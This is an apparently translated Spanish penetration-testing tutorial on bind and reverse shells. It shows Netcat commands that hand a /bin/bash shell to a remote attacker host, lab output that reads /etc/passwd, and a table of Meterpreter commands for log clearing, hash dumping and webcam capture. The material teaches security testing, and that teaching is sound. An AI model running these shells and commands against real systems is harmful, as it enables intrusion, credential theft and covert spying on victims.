


# 8.1.2 - Ambientes Inversos y Enlazados
Un _shell_ o _ambiente_ es una utilidad (software) que actúa como interfaz entre un usuario y el sistema operativo (el núcleo y sus servicios). Por ejemplo, en Linux hay varios entornos de shell, como Bash, ksh y tcsh. Tradicionalmente, en Windows, el shell es la línea de comandos (interfaz de línea de comandos), que cmd.exe invoca. Windows PowerShell es un shell de Microsoft más reciente que combina la funcionalidad CMD anterior con un nuevo conjunto de instrucciones de scripting /cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.<br>
__NOTA__: Microsoft ha publicado una lista completa y documentación para todos los comandos de Windows compatibles; consulte *https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands*.<br>

Repasemos las diferencias entre los shell de enlace y de inversión. Con un shell de enlace, un atacante abre un puerto o un agente de escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema para ejecutar comandos y manipular aún más a la víctima.<br>

<br>
<br>
Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto) y la víctima inicia una conexión de regreso al sistema atacante.<br>

<br>

Muchas herramientas le permiten crear shells de enlace e inversos desde un host comprometido. Algunos de los más populares son el módulo Meterpreter en Metasploit y Netcat. Netcat es una de las mejores y más versátiles herramientas para evaluadores de penetración porque es liviana y muy portátil. Incluso puede verlo detallado en los primeros párrafos de la página del comando `man netcat`.<br>

Veamos Netcat en acción. Un atacante podría usar el comando `nc -lvp 1234 -e /bin/bash` en el sistema comprometido (192.168.78.6) para crear un agente de escucha en el puerto `1234` y ejecutar (`-e`) el shell de Bash (`/bin/bash`). Netcat usa entrada estándar (stdin), salida estándar (stdout) y error estándar (stderr) en el socket IP.<br>

```bash
    ┌──(kali㉿Kali)-[~]
    └─$ nc -lvp 1234 -e /bin/bash
    listening on [any] 1234 ...
```
__NOTA__: En sistemas Windows, puede ejecutar la utilidad del símbolo del sistema cmd.exe con el comando `nc -lvp 1234 -e cmd.exe`.<br>

Como se muestra en el siguiente ejemplo, en el sistema atacante (192.168.78.147), se usa el comando `nc -nv 192.168.78.6 1234` para conectarse con la víctima. Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando `ls` y se muestran tres archivos en la pantalla del atacante.<br>

```bash
    ┌──(kali㉿Kali)-[~]
    └─$ nc -nv 192.168.78.6 1234
    (UNKNOWN) [192.168.78.6] 1234 (?) open
    ls
    secret_doc_1.doc
    secret_doc_2.pdf
    secret_doc_3.txt
```
Cuando el atacante se conecta, se muestra el siguiente mensaje en el sistema de la víctima.<br>

```bash
    connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```
Uno de los desafíos del uso de shells de enlace es que, si el sistema de la víctima está detrás de un cortafuegos, el puerto de escucha puede estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.<br>
En este caso, para crear un shell inverso, puede usar el comando `nc -lvp 666` en el sistema atacante para escuchar un puerto específico (666 en este ejemplo).<br>

```bash
    ┌──(root㉿Kali)-[~]
    └─# nc -lvp 666
    listening on [any] 666 ...
    192.168.78.6: inverse host lookup failed: Unknown host
    connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
    ls
    secret_doc_1.doc
    secret_doc_2.pdf
    secret_doc_3.txt
```
Luego, en el host comprometido (la víctima), puede usar el comando `nc 192.168.78.147 666 -e /bin/bash` para conectarse al sistema atacante.<br>

```bash
    ┌──(kali㉿Kali)-[~]
    └─$ nc 192.168.78.147 666 -e /bin/bash
```
Una vez que el sistema de la víctima (192.168.78.6) está conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos.

```bash
    ┌──(root㉿Kali)-[~]
    └─# nc -lvp 666
    listening on [any] 666 ...
    192.168.78.6: inverse host lookup failed: Unknown host
    connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
    ls
    secret_doc_1.doc
    secret_doc_2.pdf
    secret_doc_3.txt
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```
La siguiente tabla enumera varios comandos Netcat útiles que podrían usarse en una interacción de prueba de penetración.<br>

| Comando | Descripción |
|-|-|
| nc -nv [Dirección IP] [Puerto] | Uso de Netcat para conectarse a un puerto TCP |
| nc -lvp [Puerto] | Escuchar un puerto TCP predeterminado |
| nc -lvp 1234 > output.txt<br># Receptor<br>nc -nv [Dirección IP] < input.txt<br># Transmisor | Se usa para transferir un archivo |
| nc -nv [Dirección IP] 80<br>GET / HTTP/1.1 | Conexión y recepción de una página web. El puerto 443 se puede utilizar para conexiones HTTPS |
| nc -z [Dirección IP] [Rango de puertos] | Usar Netcat com escáner de puertos |

__NOTA__: Se pueden obtener comandos y referencias adicionales de Netcat para las herramientas posteriores a la explotación en *https://github.com/The-Art-of-Hacking/art-of-hacking*.<br>

El módulo Meterpreter del marco de Metasploit también se puede utilizar para crear shells de enlace e inversión y para realizar muchas otras tareas posteriores a la explotación. La siguiente table incluye algunos de los comandos de Meterpreter más comunes.<br>

| Comando Meterpreter | Descripción |
|-|-|
| cat, cd, pwd, ls | Estos comandos son los mismos que los de los sistemas basados en Linux o Unix. |
| lpwd, lcd | Estos comandos se utilizan para mostrar y cambiar el directorio local (en el sistema atacante) |
| clearev | Este comando se usa para borrar los registros de aplicación, sistema y seguridad en un sistema basado en Windows |
| download | Este comando se usa para descargar un archivo del sistema víctima |
| edit | Este comando se usa para abrir y editar un archivo en un sistema víctima mediante el entorno Vim |
| execute | Este comando se usa para ejecutar comandos en el sistema víctima |
| getuid | Este comando se utiliza para mostrar el usuario que inició sesión en el sistema comprometido |
| hashdump | Este comando se usa para volcar el contenido de la base de datos de SAM en un sistema Windows |
| idletime | Este comando se usa para mostrar la cantidad de segundos que el usuario en el sistema víctima ha estado inactivo |
| ipconfig | Este comando se utiliza para mostrar la configuración de la interfaz de red y las direcciones IP del sistema víctima |
| migrate | Este comando se usa para migrar a un proceso diferente en el sistema víctima |
| ps | Este comando se usa para mostrar una lista de procesos en ejecución en el sistema de la víctima |
| resource | Este comando se usa para ejecutar los comandos de Meterpreter enumerados dentro de un archivo de texto, lo que puede ayudar a acelerar las acciones realizadas en el sistema víctima |
| search | Este comando se utiliza para localizar archivos en el sistema de la víctima |
| shell | Este comando se usa para ingresar a un shell estándar en el sistema víctima |
| upload | Este comando se usa para cargar un archivo en el sistema víctima |
| webcam_list | Este comando se utiliza para mostrar todas las cámaras web del sistema víctima |
| webcam_snap | Este comando se usa para tomar una instantánea con una cámara web del sistema víctima |

__CONSEJO__: Metasploit Unleashed es un curso detallado gratuito de Metasploit lanzado por Offensive Security. Se puede acceder al curso en https://www.offensive-security.com/metasploit-unleashed.<br>
